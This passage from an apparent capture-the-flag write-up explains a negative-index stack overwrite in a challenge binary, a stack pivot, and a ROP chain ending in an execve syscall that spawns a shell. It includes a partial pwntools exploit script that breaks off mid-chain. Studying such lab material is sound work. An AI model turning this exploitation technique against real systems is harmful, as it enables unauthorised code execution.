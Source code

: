                 <ul>
                    <li>With a negative <code>v18</code>, unintended memory regions can be overwritten, including the return pointer.</li>
                </ul>
            </div>
            <div class="section-content">
                <h3>Exploitation Plan</h3>
                <ol>
                    <li>Pass <code>-2</code> as input to overwrite memory where the return address is stored.</li>
                    <li>Trigger stack pivoting, redirecting execution flow to controlled heap memory.</li>
                    <li>Use a ROP chain to execute a <code>syscall</code> and spawn a shell.</li>
                </ol>
            </div>
            <div class="section-content">
                <h3>Exploit Explanation</h3>
                <ul>
                    <li>We send <code>-2</code> as input, allowing us to overwrite a pointer on the stack.</li>
                    <li>Execution shifts to our <code>calloc</code> region after function epilogues.</li>
                    <li>Using ROP, we first write <code>"/bin/bash"</code> into writable memory.</li>
                    <li>Next, we execute the <code>execve</code> syscall (<code>syscall 0x3b</code>) to spawn a shell.</li>
                    <li>Finally, we interact with the shell.</li>
                </ul>
            </div>
            <div class="section-content">
                <<div class="h4-wrapper">
        <h4>Complete Exploit:</h4>
             <button class="copy-btn">Copy</button>
    </div><pre><code class="language-python">from pwn import *

# Connect to remote or local process
# io = remote("94.237.58.215", 40276)
io = process("./challenge/crossbow")

# Send the negative index to trigger stack pivoting
io.sendline(b"-2")

# Build ROP chain
stack = p64(0xdeadbeef)  # Padding
stack += p64(0x0000000000401d6c) # pop rdi; ret
stack += p64(0)  # Null out rdi

stack += p64(0x0000000000401139) # pop rdx; ret
stack += p64(0x40d000)  # Writable memory
stack += p64(0x4017c4) # xor rax, rax; ret
stack += p64(0x0000000000404b4f) # syscall
